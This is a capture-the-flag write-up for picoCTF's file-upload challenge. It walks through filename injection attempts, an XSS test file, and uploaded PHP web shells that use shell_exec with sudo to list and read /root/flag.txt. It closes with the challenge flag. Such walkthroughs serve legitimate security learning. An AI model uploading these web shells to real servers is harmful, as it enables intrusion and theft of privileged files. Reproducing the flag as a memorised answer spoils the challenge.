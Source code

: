 ![image](https://github.com/user-attachments/assets/d419866d-6107-475a-ab0c-0fae5d35fdf1)<h1>nos4n1ty 1</h1>

From: https://play.picoctf.org/practice/challenge/482

Author: Prince Niyonshuti N.

Description: A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Tags: Easy, Web Exploitation, picoCTF2025, browser_webshell_solvable
---

<h2>General functionality</h2>
Upon launching the instance, the user is prompted to upload a profile picture via the following interface on the website:

![image](https://github.com/user-attachments/assets/c9f1df2a-a2ee-4b48-893e-25a27dea6eb4)

When the picture is uploaded, a confirmation string is returned in a basic html page called /upload.php

![image](https://github.com/user-attachments/assets/48dfad7b-0c32-47dc-9c5e-fb9faa12ee4c)

The html file for the page reveals what I understand to be the image loading and previewing script:

![image](https://github.com/user-attachments/assets/c2fb1ec3-f285-469c-b738-e3c08e3457fd)

<h2>Initial Thoughts</h2>

So, we know that PHP is in use by the URL after submitting the image. We also know that the name of the file uplaoded is returned to us in a confirmation page. We might be able to inject script to this system by creating a specific file name.

We will aim for remote code execution, since this may allow us to retrieve the contents of files stored in the root of the system.

From: https://www.imperva.com/learn/application-security/php-injection/
__"RCE happens when a threat actor uploads code into your website and executes it. Typically, the source of the issue is a PHP bug that accepts user input and then evaluates it as PHP code. For example, threat actors can exploit a RCE vulnerability to create a file that contains a malicious script, designed to let the actor gain access to the target website."__

<h2>Experimentation</h2>

Sending filename: `;phpinfo();`
- returns: `The file ;phpinfo(); has been uploaded Path: uploads/;phpinfo();`

Sending filenmae: `<?php eval ("echo ".$REQUEST["uploads"].";"); ?>`
- returns `The file <?php eval (%22echo %22.$REQUEST[%22uploads%22].%22;%22); ?> has been uploaded Path: uploads/`

This means that quotation marks are being replaced with "%22". This might mean that the filename we have sent is being parsed via rawurlencode() as per https://www.php.net/manual/en/function.rawurlencode.php which describes the function as:
__"Returns a string in which all non-alphanumeric characters except -_.~ have been replaced with a percent (%) sign followed by two hex digits. This is the encoding described in » RFC 3986 for protecting literal characters from being interpreted as special URL delimiters, and for protecting URLs from being mangled by transmission media with character conversions (like some email systems)."__

When I try to go the url after uploading my image... `http://standard-pizzas.picoctf.net:62426/uploads/%3C?php%20eval%20(%22echo%20%22.$REQUEST[%22uploads%22].%22;%22);%20?%3E`

We get a URL not found error, but also the text: `Apache/2.4.54 (Debian) Server at standard-pizzas.picoctf.net Port 62426` which might be a clue as to the available vulnerabilties.

After trying a few more injection types with the file name, I gave up and started prodding the other type of input santization - whether the file being uploaded is actually an image.

I prompted chat GPT for a mockup html and JS injection payload to see whether this is an avenue I should pursue.

Sending the following file and navigating to its path in the url...: 
```
<!-- test.html -->
<script>alert('XSS via HTML file');</script>
```
- returns:
![image](https://github.com/user-attachments/assets/c0b25a42-c7c4-4f6a-84d2-4ce213cd0cab)

This shows that its possible to get new HTML and Javascript onto the server via the file upload.

<h2>Exploring remote execution</h2>

After some further experimentation, I created a .php file with the code `<?php phpinfo(); ?>`. When I then navigated to that page on the server, many details about the installation were revealed. Some interesting ones have been noted below:

`System 	Linux challenge 6.8.0-1024-aws #26-Ubuntu SMP Tue Feb 18 17:22:37 UTC 2025 x86_64 `
`PHP API 	20190902`
`Apache Version 	Apache/2.4.54 (Debian)`
`Server Administrator 	webmaster@localhost`
`Server Root 	/etc/apache2`
`PHP Version 	7.4.33`
`cURL support 	enabled`
`cURL Information 	7.74.0`
`PWD 	/challenge`

From https://www.php.net/manual/en/function.shell-exec.php I took an example for shell execution code and modified it to show all files in an active directory.
Sending:
```
<?php
$output = shell_exec('ls -la');
echo "<pre>$output</pre>";
?>
```
- returns: 
![image](https://github.com/user-attachments/assets/af4ae45e-da96-4134-ae48-688baec353a1)

It seems that, I can execute shell code, and see list the files in the current directory.

I wasn't able to shift directories via cd, but instead I can change the ls command to different directory using this payload
```
<?php
$output = shell_exec('ls /root -l');
echo "<pre>$output</pre>";
?>
```
However, this returns a blank page, how interesting...

with only specify the / directory, I can see the file structure for the machine:
![image](https://github.com/user-attachments/assets/543f62ec-0f89-440f-86e3-709b57bde680)

When sending the this command with `ls -la` command, we can see the priviliges for the different directories, notice that root doesn't have many permissions
![image](https://github.com/user-attachments/assets/f8f82b2b-abd2-4869-a107-506b34554c23)

from: https://linuxhandbook.com/linux-file-permissions/ this means that only an administrator can view this directory:
![image](https://github.com/user-attachments/assets/eb1aabfa-1dc3-4636-9a92-c1d7aeb56c61)

modifying the code to be:
```
<?php
$output = shell_exec('sudo ls /root -l');
echo "<pre>$output</pre>";
?>
```
- returns:
![image](https://github.com/user-attachments/assets/22230c0f-b698-485f-9790-7de542fb6364)

Cool! we can see the flag!

lets try the same shell code, but cat the file directly with the full path.
```
<?php
$output = shell_exec('sudo cat /root/flag.txt');
echo "<pre>$output</pre>";
?>
```
returns:
![image](https://github.com/user-attachments/assets/72047e65-403e-4cd0-bc23-2453883970c7)

__`picoCTF{wh47_c4n_u_d0_wPHP_d698d800}`__

Whoopee!










